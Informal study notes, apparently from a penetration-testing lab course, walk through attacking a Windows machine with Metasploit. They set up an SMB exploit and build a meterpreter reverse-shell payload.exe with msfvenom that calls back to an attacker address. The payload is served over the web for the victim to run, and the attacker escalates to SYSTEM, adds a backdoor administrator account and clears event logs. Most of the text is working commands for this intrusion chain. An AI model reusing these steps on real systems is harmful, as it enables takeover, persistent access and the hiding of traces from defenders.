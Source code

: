 1. Using the metaspolit framework

''
this is the most widely used tool in exploiting vulnerabilities
metasploit has a modular and flexible architecture that helps you
develop new exploits as more and more vulns are discovered.
it is also uesd in pentesting

you can use metaspolit with or without a database

if you configure the database metasploit will be able to track what youdo within the framework.

''

1. Switching off the windows firewall

> get to control panel
> system and security
> windows firewall
> turn off firewall
> turn off firewall for all three


> you can find Metasploit modules either from within the Metasploit fra  mework or from its Website. On the Metasploit Website, you can search  the vulnerabilities matching to a specific module. There are differen  t methods of searching. For example, you can search using any of the   following:

    Common Vulnerabilities and Exposures (CVE) number
    Open Sourced Vulnerability Database (OSVDB) ID
    Bugtraq ID
    Microsoft Security Bulletin
    Module information


2. within msfconsole

setting RHOST RPORT SMBPIPE (per the example we are following)

> HOST: This is the remote host that you want to exploit. For example,   if the IP address of the remote host is 192.168.0.5, you need to set   th  is as set RHOST 192.168.0.5.
    RPORT: This is the port that you need to attack the remote host. Si  nce this exploit is meant for Windows SMB service, it uses the defaul  t port for SMB, which is 445.
    SMBPIPE: This is also using the default value, which is the Browser  You can keep the default value.

3. Using Payloads

''

after the exploit executes on the target, you need to tell it the action it needs to perform. This is done by loading the payload, which is designed to perform specific tasks.

''

A. Finding a compatible Payloads

> Metasploit has 100's of payloads
> they are not all compatible with the version of windows that is suppo  sed to be the target.
> you CAN still find the payloads that are compatible... heres how

  > show payloads

  > set PAYLOAD windows/shell/reverse_tcp

 
4. Types of Shells

''

there are two different types of shells; reverse shells and bind shells

''

> Bind Shells 

- a bind shell is a shell that instructs the victim's mac  hine to open  a comand shell. 

- the specified port within the command is used for listening to the 
  connection from the attacker's system, which connects to the vict      m's system on the specified port
  
> Reverse Shells

- a reverse shell forces the connection back to the attacker"s system,   which uses an open local port and listens for the connection on this   port


5. Creating Standalone Payloads with Msfvenom

> combination of 2 different tools: Msfpayload/ Msfencode both a part
  of kali linux

> both tools still exist in kali as independent tools

> msfvenom was designed to create standalone payloads

> you dont have to start meta to use it and it works directly on the
  command line in kali


msfvenom -l payloads

example:
windows/meterpreter/reverse_tcp LHOST=192.168.0.3 -f exe -o payload.exe

Sharing the Payload with the Victim

> After creating a payload, you need to ensure that it reaches the vict  im’s system by any means. For example, you can share it on a USB, whi  ch may not be possible if you are sitting in another city or country.  The easiest method can be to share it on the Web, which can be downlo  aded by the victim.


step 1

> let's now copy payload.exe to the webserver(root directory for all we  b stuff directory)


cp payload.exe /var/www/html

> browse to 
  http://192.168.0.3/payload.exe

6. Use the Multi/handler module and exploit the system

> standalone modules cannot create a connection between you and the vic  tim's system.

> the only method is to use the multi/handler module which will catch
  the meterpreter connection when the payload.exe is executed on the vi  ctim's system

A. summon msfconsole

> use multi/handler

> set payload windows/meterpreter/reverse_tcp

> set LHOST 192.168.0.3

> exploit

> victim now run malicious payload.exe

> we now have a meterprete session

> run getuid

> priv esc run getsystem

> run getuid again and volia 

> now type shell 

> whoami

> ntauthority  AKA ROOT!! : )))ear

> net users 

7. 

> you have seen the existing users present on the PLABWIN810 system. Yo  u can always keep a persistent control over the system by creating a   user with administrative privileges. First, let’s create a new user o  n the PLABWIN810 system. Type the following command:


net user /add plab Test**1234

> now lets add him to the admins group

net localgroup administrators plab /add 

> you can use 'net users' command to make sure it was added

> once you are done type exit and you will return to your meterpreter
  prompt

> to make sure that you are not being tracked, you can remove any kind   of traces that the payload must have left behind. To do this, you nee  d to clear all the logs on the Windows system. Type the following com  mand:
'clearev'





























